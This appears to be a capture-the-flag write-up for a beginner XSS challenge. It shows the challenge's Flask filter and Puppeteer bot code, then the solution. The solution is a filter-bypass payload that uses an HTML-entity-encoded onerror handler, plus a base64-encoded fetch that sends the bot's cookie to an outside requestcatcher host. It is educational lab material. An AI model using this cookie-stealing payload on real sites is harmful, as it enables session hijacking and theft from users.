

What you need to solve :
- Basic concept js
- Basic concept of XSS
- Basic concept of Websites

---

Starting off the challenge we were given the full source code of the challenge

```sh
❯ ls
app  bot  docker-compose.yml  start.sh
❯ ls app
app.py  Dockerfile  static  templates
❯ ls bot
app.js  Dockerfile  package.json  package-lock.json  views
```

We only need to focus on the 2 main logic of the application that is the main app and the bot.

```py
❯ cat app/app.py
from flask import Flask, request, render_template
import re

app = Flask(__name__)

def is_content_safe(content):
    if re.search(r'script', content, re.IGNORECASE):
        return False, "-10 million aura points"

    if re.search(r'on\w+\s*=', content, re.IGNORECASE):
        return False, "UR NOT SIGMA!!!"

    return True, None

@app.route('/', methods=['GET'])
def index():
    content = request.args.get('content', '')
    error = None

    if content:
        is_safe, error_msg = is_content_safe(content)
        if not is_safe:
            error = error_msg
            content = ''

    return render_template('index.html', content=content, error=error)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80, debug=True)
```

So basicly the website will filter out anything that uses the word `script` and anything that makes the regex `r'on\w+\s*='` true.
This is easily passable we can use html entities to solve this problem and first get an alert.

```

```


So after getting the alert i love testing for requests from the server!

```

```


So we managed to get the request from the server!

Now lets focus on the bot logic to solve the challenge.

```js
const express = require("express");
const bodyParser = require("body-parser");
const puppeteer = require("puppeteer");
const path = require("path");

const app = express();

const FLAG = "CSC{FAKE_FLAG}";

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: true }));

app.get("/", (req, res) => {
  res.sendFile("/app/views/report.html");
});

app.post("/", async (req, res) => {
  const { url } = req.body;

  if (!url) return res.send({ error: "Please provide url parameters.." });
  if (! url.startsWith("http://website:80/")) return res.send({ error: "Url must starts with http://website:80/" });
  
  const browser = await puppeteer.launch({
    headless: true,
    defaultViewport: null,
    executablePath: "/usr/bin/google-chrome",
    args: [
      "--disable-dev-shm-usage",
      "--no-sandbox",
      "--disable-setuid-sandbox",
      "--disable-gpu",
      "--no-gpu",
      "--disable-default-apps",
      "--disable-translate",
      "--disable-device-discovery-notifications",
      "--disable-software-rasterizer",
      "--disable-xss-auditor",
    ],
    ignoreHTTPSErrors: true,
  });
  try {
    const page = await browser.newPage();

    await page.setCookie({
      name: "flag",
      value: FLAG,
      domain: "website",
      path: "/",
    });

    console.log(`[X] Visiting: ${url}`);
    await page.goto(url, { waitUntil: "networkidle2", timeout: 6000 });

    res.status(200).json({ message: "URL Visited." });
  } catch (error) {
    console.log(error);
    res
      .status(500)
      .json({ error: "Something error with your urls or the bot." });
  } finally {
    if (browser) {
      await browser.close(); // Ensure browser is closed even if an error occurs
    }
  }
});

app.listen(80, '0.0.0.0', () => {
  console.log(
    `Server is running on port http://127.0.0.1:80/`
  );
});
```

So basicly it will take the value from `http://website:80/` and it can take `content` as an argument which is like us inputting to the box in the main page.
Because we have xss in the main page this means we can steal the admin's cookie!

```sh
❯ python3
Python 3.13.2 (main, Feb  5 2025, 01:23:35) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64
... js_code = "fetch('https://auricnob.requestcatcher.com/exfil?data='+encodeURIComponent(document.cookie));"
... encoded_js = base64.b64encode(js_code.encode('utf-8')).decode('utf-8')
... print(encoded_js)
...
ZmV0Y2goJ2h0dHBzOi8vYXVyaWNub2IucmVxdWVzdGNhdGNoZXIuY29tL2V4ZmlsP2RhdGE9JytlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKSk7
```

```
http://website:80/?content=%3Cimg%20src%3Dx%20%26%23x6F%3Bnerror%3Deval(atob('ZmV0Y2goJ2h0dHBzOi8vYXVyaWNub2IucmVxdWVzdGNhdGNoZXIuY29tL2V4ZmlsP2RhdGE9JytlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuY29va2llKSk7'))%3E
```


This was a pretty easy challenge to solve, but it was a good xss challenge for beginners.


Flag : CSC{iniflagasli_jangan_jangan_percaya_orang_lain_yang_ngaku_flag_asli}